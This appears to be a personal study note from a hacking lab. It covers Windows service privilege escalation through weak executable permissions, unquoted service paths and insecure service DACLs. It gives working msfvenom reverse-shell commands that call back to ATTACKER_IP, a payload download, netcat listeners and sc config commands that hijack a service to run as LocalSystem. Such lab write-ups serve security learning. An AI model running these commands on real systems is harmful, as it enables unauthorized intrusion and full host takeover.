 Windows services are managed by the Service Control Manager (SCM), which is responsible for overseeing the state of services, monitoring their current status, and providing a means to configure them as necessary.

To better understand the structure of a service, we can use the `sc qc` command:

```
sc qc <service>
```

Here, the `BINARY_PATH_NAME` parameter specifies the associated executable, while the `SERVICE_START_NAME` parameter indicates the account used to run the service.

Services have a Discretionary Access Control List (DACL) that defines permissions for actions like starting, stopping, and configuring the service. You can view the DACL using Process Hacker, available on your desktop.

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

![](../../Attachments/Pasted%20image%2020240810183544.png)

Each service has a registry subkey where the `ImagePath` shows the executable and `ObjectName` indicates the account used to start the service. If configured, the DACL is stored in the `Security` subkey, and only administrators can modify these entries by default.

# Insecure Permissions on Service Executable

If a service's executable has weak permissions, an attacker could easily modify or replace it, thereby gaining the privileges of the service's account.

For example: having a service executable with (M) permission on "Everyone" group, then we can generate our own payload using msfvenom and serve it through a python webserver:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
# Next
python3 -m http.server
# On Target
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well, then we start out listener `nc -lvnp 4445`.

# Unquoted Service Paths

In Windows, improper configuration of service paths can lead to privilege escalation. If a service executable's path contains spaces but lacks quotation marks, Windows may misinterpret the command and execute unintended files in the path. Attackers can exploit this by creating executables with names that Windows might attempt to execute first. For instance, if a service is set to run `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` without quotes, Windows may mistakenly execute `C:\MyPrograms\Disk.exe` if it exists. By placing a malicious executable at `C:\MyPrograms\Disk.exe`, an attacker could gain control over the service.

We try Identify Services with Unquoted Paths:

```
sc qc "service_name"
```

Then, we Look for a `BINARY_PATH_NAME` without quotation marks that contains spaces in the path, e.g., `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`.

Next, Identify paths Windows might misinterpret by splitting at each space. For instance:

```
C:\MyPrograms\Disk.exe
C:\MyPrograms\Disk Sorter.exe
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```

After that, we create a reverse shell payload using `msfvenom`

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe -o rev-svc2.exe
```

Now, we transfer the payload to the vulnerable machine and rename it to match one of the potential paths Windows might search (e.g., `Disk.exe`):

```
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
```

Finally, we grant full permissions to ensure the service can execute it and open a listener on our machine:

```
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

on our machine: `nc -lvnp 4446`

# Insecure Service Permissions

This method targets services with misconfigured _service_ DACLs, allowing modification of service configurations (e.g., changing the binary path or the user account under which the service runs).

First, we use `AccessChk` from the Sysinternals suite to confirm if the "Users" group has the `SERVICE_ALL_ACCESS` permission on the target service (`thmservice`):

```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
```

If `BUILTIN\Users` has `SERVICE_ALL_ACCESS`, it allows us to reconfigure the service.

Next, we use `msfvenom` on our attacker machine to create a payload that will connect back to our listener. Substitute `ATTACKER_IP` with our IP:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```

Then, we start a listener to receive the reverse shell connection:

```
nc -lvp 4447
```

After that, we transfer `rev-svc3.exe` to the target system and place it in a writable directory, such as `C:\Users\thm-unpriv\rev-svc3.exe`.

Then, we set permissions so that the file can be executed by anyone:

```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Then, using `sc config`, we change the service’s binary path (`binPath`) to point to our payload and set the service to run under `LocalSystem` (the highest privilege account). We take care to include proper spacing in the command:

```
`sc config thmservice binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`
```